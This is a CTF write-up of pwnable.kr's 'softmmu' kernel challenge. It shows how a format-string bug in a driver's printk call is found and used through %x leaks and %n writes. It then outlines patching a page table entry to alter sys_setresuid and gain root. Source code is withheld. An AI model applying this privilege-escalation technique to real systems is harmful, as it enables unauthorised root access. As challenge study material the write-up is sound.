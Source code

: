 Over the years of my CTF\'ing I always come back to [pwnable.kr](https://pwnable.kr), although a tad outdated it\'s a vast source of simply awesome binary exploitation and pwn challanges. In particular their kernel exploitation series of challanges interest me - they\'re really well made and good introductory material on the matter. Per the policies on the site, this writeup won\'t share any source code and try to be minimal as possible.

The last of those challanges is *softmmu*, here\'s the readme:\

> ***If you are good at kernel exploit, try this one :)***


<img src="./static/img/softmmu/softmmu.png" style="width:20%">

## The Challange
We\'re given two things: a linux kernel object file containing some sort of a driver, and access to a fairly old linux virtual machine loaded with asid driver. Before we open the executable for further inspection in IDA, let\'s SSH into the machine and check what it does.

```
...
[+] Loading x86 PAE MMU emulator
[+] Write the virtual address to /proc/softmmu
[+] You can obtain it's physical address by reading /proc/softmmu
[+] i.e. echo -ne '\x00\x80\x04\x08' > /proc/softmmu; hexdump -C /proc/softmmu
[+] Let the kernel exploit begin :)

$ uname -a
Linux (none) 3.7.1 #1 SMP Mon Dec 23 06:07:19 PST 2013 i686 GNU/Linux
$ ls /*.ko
/softmmu.ko
```

*Hmm*, it prints out a pretty explanation for us :3 As the name softmmu hints \- the module interfaces with the Linux kernel memory\'s and emulates a x86 Page Address Extension for the MMU. The interface with the module seems to be very straightforward, we write a virtual address to the device file /proc/softmmu and then read back the physical address.

## Finding A Vulnerability
Our end goal is to get root, so we definitely have to find a vulnerability to expoloit in the softmmu module. Let\'s open the kernel object file in IDA to analyze:

<img src="./static/img/softmmu/overview.png" style="width:70%">

A fairly tame program, not too many functions and fairly straightforward structure. We are not going to reverse the entire program (since I found the vulnerability quickly) but here are some pointers:\
\
> We cannot request the physical addresses of ones outside userspace (seems important for the exploit).\
> It recursively traverses page table within the mmu_walk() function in order to retrieve addresses.\
> Program contains verbose output for debugging purposes.
\
The last point is particulary important; it allows us to understand the inner workings better and perhaps find a vulnerability to exploit, let\'s look at the debugging code.

```
__int64 __usercall get_pte_entry@<edx:eax>(int a1@<eax>, char *a2@<edx>)
{
  int v2; // ebx

  v2 = *(_DWORD *)&a2[8 * ((a1 & 0x1FF000u) >> 12)];
  if ( (v2 & 1) != 0 )
  {
    printk("[Debug] PGD(%x) Dump\n", a2);
    printk(
      "[task:%s] %p:%02x %p:%02x %p:%02x %p:%02x\n",
      (const char *)(__readfsdword((unsigned int)&current_task) + 740),
      a2,
      *a2,
      a2 + 1,
      a2[1],
      a2 + 2,
      a2[2],
      a2 + 3,
      a2[3]);
    printk("[Debug] Dump Virtual Address\n");
    printk("\n===============================\n");
    printk((const char *)req_vaddr);
    printk("\n===============================\n");
  }
  return v2;
}
```

Fairly bloaty raw decompiled code, but breaking it down it is very simple: it retrieves a page table entry from a PD64 (Page Global Directory entry). Besides the pretty cool kernel level code, the vulnerability here is glaringly obvious - the program passes the address we request (a global variable) to printk().\
\
> printk((const char *)req_vaddr);\

#### Boom~! 

We found a string format vulnerability we can control :3 

## Writing The Exploit - Pt. 1
So far this hasn\'t been a challenge for kernel experts, even a script kiddie can find this vulnerability. I must admit, writing the exploit is much more difficult because a plethora of reasons.\
\
In order to pass a string to the module, we\'d have to allocate some bytes in the process memory space. Let\'s try compile a simple C program on the remote machine to do just that:
```
/tmp $ gcc pwn.c
sh: gcc: not found
```
*Oof*, that means we have to cross compile.\
The first problem that imposes us is the fact the remote machine is running a really outdated version of the kernel, paired with the fact it doesn\'t have internet access it really limits us in how we compile for it.
The soltuion that I came up with was as follows\
compile a static no-stdlib program -> compress it -> base64 the tar.gz -> do the reverse on remote.\

#### This means writing a minimal libc from scratch, *good luck me*\.\.\.

After a fair amount of work, I got to a level where I had all of the necessary API\'s to leverage the vulnerability\
On local machine:

```
yael@covenstead:~/softmmu$ gcc pwn.c -nostdlib -m32 -static -o /dev/stdout | gzip - | base64 -w 0
H4sIAAAAAAAAA+1bfWwT5xlz3YSjziNYdmW0nR1p2iE0phAUpY0k0gCB2kFw4RYa9dS49hHEsd2PPtcEgYrzIuI5VnLgE2a1j+Q9v2hqdpUpPHPsqZt...
```

On Remote:

```
/ $ base64 -d | gunzip - > /tmp/x && chmod +x /tmp/x && /tmp/x "%x %x %x %x\n"
< paste base64 code here >
[ 1406.371600] virtual address set to dede000
[ 1406.371963] [Debug] PGD(c2ad1000) Dump
[ 1406.372520] [task:x] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.372963] [Debyg] Dump Virtual Address
[ 1406.373234]
[ 1406.373234] =============================
[ 1406.373627] c2eb7514 c2ad21000 0 c2ad21001 0
======================================
[ 1406.374963] [Debug] PGD(c2ad1000) Dump
[ 1406.374520] [task:x] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.374963] [Debyg] Dump Virtual Address
[ 1406.375234]
[ 1406.375234] =============================
[ 1406.375627] c2eb7514 c2ad21000 0 c2ad21001 0
======================================
[<3] softmmu output: 0xBFB81288
```

\
Awesome~! We\'re able to leak addresses off the stack :3\
Finally some progress, we should try running the forsakened %n.\.\.

```
/ $ base64 -d | gunzip - > /tmp/x && chmod +x /tmp/x && /tmp/x "%65n"
< ... >
[ 1406.371600] virtual address set to dede000
[ 1406.371963] [Debug] PGD(c2ad1000) Dump
[ 1406.372520] [task:x] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.372963] [Debyg] Dump Virtual Address
[ 1406.373234]
[ 1406.373234] =============================
[ 1406.373627]                                                               
======================================
[ 1406.374963] [Debug] PGD(c2ad1000) Dump
[ 1406.374520] [task:A] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.374963] [Debyg] Dump Virtual Address
[ 1406.375234]
[ 1406.375234] =============================
[ 1406.375627]                                                        
======================================
[<3] softmmu output: 0xBFB81288
```
OMG, it worked and we wrote into the process name <3! (As seen in the debug messages) All of this work wasn\'t for nothing.

## Writing The Exploit - Pt. 2
Now for the second part of the exploit, we have to figure out how the hell we take advantage of the format string vulnerability. This isn\'t like the average format string attack as it\'s not performed on a userland stack, but a kernel one. Besides our request address which occasionally surfaces down the stack we get nada.\
\
Luckily for us we have a bunch of debug values on the stack, some of them might be incredibly useful to craft an exploit. ***Yes!*** The stack is setup in a way we can write to the page table entry any arbtriary value we want, hence we change the permissions of a kernel pages and execute our code as supervisor :3\
(We have a pointer for each byte and the corresponding address)\
\
Since we have to fully comperhend the paging mechanism in full detail to execute this exploit properly, here\'s a diagram of the Page Table Entry structure:

<img src="./static/img/softmmu/pte.png" style="width:70%">

There are many bits and flops, but assuming basic knowledge of paging nothing is too out of ordinary. The first three flags are interesting: P (**P**resent), R/W (**R**ead/**W**rite) and U/S (**U**ser/**S**upervisor).\
If the **P**resent bit is set then the page is actually in physical memory at the moment, if the **R**ead and **W**rite bit is set then the page is both readable and writable (if not then it is read only) and lastly the **U**Ser/**S**upervisor bit is set based on privellege level.\
\
We can get to work on patching the bytes of the PTE, we are able to patch one of our userspace page entries to pount to a physical adress that contains the kernel code of sys_setresuid() and make it writable. Once we got that we can flip the prillege check from je to jne, call setresuid(0) and obtain root >:3

```
/ $ base64 -d | gunzip - > /tmp/x && chmod +x /tmp/x && /tmp/x
< ... >
{CENSORED_FLAG}
/ # whoami
```

## Conclusions
This without a doubt is a serious challenge full of hurdles. Personally for me it symbolizes some sort of maturity in my cybersecurity journey, I learned so much throughout and I can\'t wait to do more.\
\
About the softmmu itself, this post only showed the a small part of the failures. So much stuff I first tried didn\'t end up working at the end, this only shows how deep and complex it gets. I believe it is a prime example of diving deep and reading old documentation about the kernel\'s inner workings and trying to figure it all out.

<img src="./static/img/softmmu/softmmu_completed.png" style="width:20%">

TLDR: the kernel is complex